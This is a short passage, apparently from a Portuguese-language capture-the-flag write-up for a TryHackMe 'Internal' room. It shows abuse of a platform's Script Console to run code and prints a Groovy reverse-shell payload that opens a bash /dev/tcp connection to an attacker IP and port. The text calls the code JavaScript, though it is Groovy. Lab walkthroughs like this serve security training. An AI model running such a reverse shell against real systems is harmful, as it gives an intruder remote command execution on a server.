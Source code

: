 Ao efetuarmos o login na plataforma, podemos navegar até a opção `Script Console`, esta feature permite rodarmos javascript diretamente na plataforma, o que é perfeito, pois podemos tentar um reverse shell via JS.

<img src="/thm/thm-internal-10.png">

```js
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.9.0.25/8444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

<img src="/thm/thm-internal-11.png">
